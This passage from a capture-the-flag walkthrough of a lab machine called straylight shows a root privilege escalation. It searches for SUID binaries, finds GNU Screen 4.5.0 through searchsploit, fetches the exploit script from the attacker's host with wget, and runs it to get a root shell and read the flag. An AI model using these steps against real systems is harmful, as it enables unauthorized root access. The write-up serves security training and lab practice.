 ### ROOT SHELL  
  
Great! Now, let's get root! After checking a few things, we found the following:  
  
www-data@straylight:/var/www/html/turing-bolo$ find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null  
>-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su  
>-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount  
>-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount  
>-rwsr-xr-x 1 root root 1543016 May 12  2018 /bin/screen-4.5.0  
>-rwsr-xr-x 1 root root 61240 Nov  9  2016 /bin/ping  
>-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd  
>-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh  
>-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn  
>-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd  
>-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp  
  
root@kali:~# searchsploit screen 4.5.0  
>--------------------------------------------------- ----------------------------------------  
> Exploit Title                                     |  Path  
>                                                   | (/usr/share/exploitdb/)  
>--------------------------------------------------- ----------------------------------------  
>GNU Screen 4.5.0 - Local Privilege Escalation      | exploits/linux/local/41154.sh  
  
  
That's what we needed. Now just bring the exploit to the straylight machine and enjoy the root shell :)  
  
root@kali:~# python -m SimpleHTTPServer 80  
>Serving HTTP on 0.0.0.0 port 80 ...  
>192.168.148.5 - - [13/Apr/2019 12:38:48] "GET /44154.sh HTTP/1.1" 200 -  
  
  
www-data@straylight:/tmp$ wget 192.168.148.3/44154.sh  
>--2019-04-13 10:38:46--  http://192.168.148.3/44154.sh  
>Connecting to 192.168.148.3:80... connected.  
>HTTP request sent, awaiting response... 200 OK  
>Length: 1152 (1.1K) [text/x-sh]  
>Saving to: '44154.sh'  
>  
>44154.sh            100%[===================>]   1.12K  --.-KB/s    in 0s        
>  
>2019-04-13 10:38:46 (306 MB/s) - '44154.sh' saved [1152/1152]  
www-data@straylight:/tmp$ chmod +x 44154.sh  
www-data@straylight:/tmp$ ./44154.sh  
>~ gnu/screenroot ~  
>[+] First, we create our shell and library...  
>[+] Now we create our /etc/ld.so.preload file...  
>[+] Triggering...  
>[+] done!  
>No Sockets found in /tmp/screens/S-www-data.  
>  
>id  
>uid=0(root) gid=0(root) groups=0(root),33(www-data)  
>python -c 'import pty;pty.spawn("/bin/bash")'  
root@straylight:/root# id  
>uid=0(root) gid=0(root) groups=0(root),33(www-data)  
root@straylight:/root# ls /root   
root@straylight:/root# cat /root/flag.txt  
>**5ed185fd75a8d6a7056c96a436c6d8aa**  
root@straylight:/root# cat note.txt  
>Devs,  
>  
>Lady 3Jane has asked us to create a custom java app on Neuromancer's primary server to help her interact w/ the AI via a web-based GUI.  
>  